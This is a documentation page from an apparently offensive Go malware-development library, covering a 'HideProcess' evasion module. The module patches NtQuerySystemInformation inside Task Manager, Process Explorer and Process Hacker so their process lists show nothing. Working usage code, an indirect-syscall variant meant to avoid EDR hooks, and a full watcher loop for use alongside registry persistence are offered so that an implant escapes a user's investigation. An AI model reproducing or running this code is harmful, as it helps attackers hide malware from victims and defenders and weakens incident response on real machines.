

# HideProcess — NtQuerySystemInformation Patch in Target

[<- Back to Evasion](README.md)

**MITRE ATT&CK:** [T1564.001 - Hide Artifacts](https://attack.mitre.org/techniques/T1564/001/)
**Package:** `process/tamper/hideprocess`
**Platform:** Windows (x64)
**Detection:** Medium

---

## Primer

Process-listing tools (Task Manager, Process Explorer, Process Hacker,
`Get-Process`) all ultimately call the same function —
`NtQuerySystemInformation(SystemProcessInformation, ...)` — which asks the
kernel to enumerate every running process.

HideProcess does not hide a process from the **kernel**. Instead it goes into
a specific **analyst tool's** address space and patches that tool's
`NtQuerySystemInformation` prologue so the syscall never happens: the function
returns `STATUS_NOT_IMPLEMENTED` immediately. The tool's process list shows
up empty; your implant (and everything else) is still there for any defender
running a process list from a different, un-patched process.

Think of it as *blinding the analyst's tool*, not hiding the target.

---

## How It Works



**Why this works:**

- On Windows 8+, `ntdll.dll` is loaded at the same virtual address in every
  process (base randomised once per boot via `KUSER_SHARED_DATA`), so we can
  resolve `NtQuerySystemInformation` locally and the VA is identical in the
  target.
- The stub returns an NTSTATUS error (`0xC0000002 =
  STATUS_NOT_IMPLEMENTED`). The caller's error-handling path typically drops
  to an empty process list.
- Only the patched process is affected. EDR agents doing process enumeration
  from **their own** (un-patched) process see everything normally. Any
  kernel-side telemetry source (Sysmon, ETW-Ti, Defender's MsSense) is
  unaffected — they do not go through usermode `NtQuerySystemInformation`.

---

## Usage

```go
import (
    "log"

    "github.com/oioio-space/maldev/process/tamper/hideprocess"
    "github.com/oioio-space/maldev/process/enum"
)

// Blind every running analyst tool.
procs, _ := enum.List()
for _, p := range procs {
    switch p.Name {
    case "Taskmgr.exe", "procexp.exe", "procexp64.exe", "ProcessHacker.exe":
        if err := hideprocess.PatchProcessMonitor(int(p.PID), nil); err != nil {
            log.Printf("patch %s (PID %d): %v", p.Name, p.PID, err)
        }
    }
}
```

**With indirect syscalls** (patch without touching hooked
`OpenProcess`/`WriteProcessMemory`):

```go
import wsyscall "github.com/oioio-space/maldev/win/syscall"

caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHellsGate())
_ = hideprocess.PatchProcessMonitor(int(taskmgrPID), caller)
```

`PatchProcessMonitor` requires `PROCESS_VM_WRITE | PROCESS_VM_OPERATION` on
the target — typically SeDebugPrivilege, or a process the current token
already owns.

---

## Combined Example

Register a registry `Run`-key for persistence, then on each logon watch for
`Taskmgr.exe` / `procexp64.exe` starting up and blind them the moment they
launch. The user opens Task Manager, sees nothing, shrugs, goes to lunch.

```go
package main

import (
    "log"
    "time"

    "github.com/oioio-space/maldev/process/tamper/hideprocess"
    "github.com/oioio-space/maldev/process/enum"
)

var blinded = map[uint32]bool{}

func watch() {
    targets := map[string]bool{
        "Taskmgr.exe":      true,
        "procexp.exe":      true,
        "procexp64.exe":    true,
        "ProcessHacker.exe": true,
    }
    for {
        procs, err := enum.List()
        if err != nil {
            time.Sleep(2 * time.Second)
            continue
        }
        for _, p := range procs {
            if !targets[p.Name] || blinded[p.PID] {
                continue
            }
            if err := hideprocess.PatchProcessMonitor(int(p.PID), nil); err != nil {
                log.Printf("patch %s (PID %d): %v", p.Name, p.PID, err)
                continue
            }
            blinded[p.PID] = true
        }
        time.Sleep(1 * time.Second)
    }
}

func main() { watch() }
```

Layered benefit: the implant runs at every logon (registry persistence), and
the very first tool a curious user reaches for (`Task Manager`) shows nothing
— removing the most common hands-on-keyboard investigation vector without
ever touching the kernel.

---

## API Reference

```go
// PatchProcessMonitor patches the live target Process Hacker /
// Process Explorer process so the implant's own process disappears
// from its NtQuerySystemInformation listing. The patch is applied to
// the running process; it does not persist a restart of the monitor.
//
// caller=nil uses direct WinAPI. Pass a wsyscall.Caller to route the
// cross-process read/write through indirect syscalls.
func PatchProcessMonitor(pid int, caller *wsyscall.Caller) error
```

See also [evasion.md](../../evasion.md) (table row: `process/tamper/hideprocess`).
